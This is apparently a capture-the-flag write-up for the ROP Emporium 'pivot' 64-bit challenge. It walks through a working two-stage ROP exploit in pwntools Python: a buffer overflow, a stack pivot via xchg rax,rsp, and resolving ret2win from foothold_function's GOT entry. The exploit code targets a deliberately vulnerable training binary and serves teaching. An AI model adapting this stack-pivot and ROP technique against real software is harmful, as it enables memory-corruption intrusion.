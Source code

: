 # pivot - 64 bit
as the name implies, we will need to pivot our stack to a different location.  
    
running the binary we get:    
![inital](https://user-images.githubusercontent.com/60041914/78302149-e9431380-7542-11ea-9fc0-aa2dde2ebd07.png)
    
reading the instructions at https://ropemporium.com/index.html we get a clearer image:     
     
"To stack pivot just means to move the stack pointer elsewhere. It's a useful ROP technique and applies in cases where your initial chain is limited in size (as it is here)"    
...      
"In this challenge you'll also need to apply what you've previously learned about the .plt and .got.plt sections of ELF binaries. If you haven't already read appendix A in the beginner's guide, this would be a good time. This challenge imports a function called foothold_function() from a library that also contains a nice ret2win function."    
...    
"You'll need to find the .got.plt entry of foothold_function() and add the offset of ret2win() to it to resolve its actual address."    
    
cool. now it's clear: the address given to us is where our stack should end up.     
we first control the 2nd stage (after pivot,call ret2win)     
and then we get to do the stack smashing(pivot to given location)   
    
 ## first stage
 the first stage we can do preety easily.    
 first, get the address from the binary using some regular expressions.    
 ```python
r=process("./pivot")
output=r.recvuntil(b"Send your")
pivot_addr=re.findall('pivot.{16}',output.decode())[1][7:] # ugly re code
pivot_addr=int(pivot_addr,16)
 ```
 then smash the return pointer and use these gadgets:     
 ```
 0x0000000000400b00 : pop rax ; ret
 0x0000000000400b02 : xchg rax, rsp ; ret
 ```
 to pivot.(setting rax to address and doing an xchg rax, rsp)     
      
 translates to this python code:     
 ```python
SET_RAX=0x00400b00
PIVOT=0x00400b02
stage1=b'A'*40
stage1+=p64(SET_RAX) # set rax to the desired pivot addr(from the binary output)
stage1+=p64(pivot_addr)
stage1+=p64(PIVOT) # xchg rax,rsp
 ```
 ## second stage
 the second stage requires a bit more thinking.    
      
 from the way dynamic binding works we know that the first call to a function populates the GOT.    
 so before calculating our offset we need to call footholdfunction() from the PLT.  
       
 after doing this, we can grab its address from the GOT. 
       
 then, we should add the offset from it to our ret2win function.   
 all in all, it would require these gadgets:     
 ```
0x0000000000400900 : pop rbp ; ret
0x0000000000400b09 : add rax, rbp ; ret
0x000000000040098e : call rax
0x0000000000400b00 : pop rax ; ret
 ```
 using objdump we can calculate the offset:     
 ![offsets](https://user-images.githubusercontent.com/60041914/78302543-a9c8f700-7543-11ea-98e7-b6505c17b866.png)
      
 and turn it into this python code:   
 ```python
CALL_RAX=0x0040098e
SET_RAX=0x00400b00
SET_RBP=0x00400900
ADD_RAX_RBP=0x00400b09
READ_AT_RAX=0x00400b05
GOT_FOOTHOLD=0x00602048
PLT_FOOTHOLD=0x00400850

stage2=p64(PLT_FOOTHOLD) # call foothold function to populate the GOT
stage2+=p64(SET_RAX)
stage2+=p64(GOT_FOOTHOLD)
stage2+=p64(READ_AT_RAX)#get addr of foothold function to rax
stage2+=p64(SET_RBP)
stage2+=p64(0x14e) # add ret2win offset
stage2+=p64(ADD_RAX_RBP)
stage2+=p64(CALL_RAX) # call ret2win
 ```
 combining both stages into one script...     
 running it...     
 ![done](https://user-images.githubusercontent.com/60041914/78302547-ab92ba80-7543-11ea-9f6d-f234c7587246.png)
      
nice! it works!     
